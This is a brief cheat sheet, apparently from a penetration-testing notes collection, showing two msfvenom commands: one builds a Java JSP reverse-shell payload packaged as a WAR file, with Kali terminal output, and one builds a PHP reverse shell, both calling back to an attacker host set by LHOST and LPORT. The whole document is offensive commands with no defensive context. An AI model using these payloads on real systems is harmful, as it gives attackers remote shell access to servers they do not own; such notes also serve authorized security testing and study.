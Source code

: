 # msfvenom
## Examples
### create Java JSP payload as war
```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f war > exploit.war
Payload size: 1084 bytes
Final size of war file: 1084 bytes
```
### create PHP reverse shell payload
```
msfvenom -p php/reverse_php LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f raw > rev_shell.php
```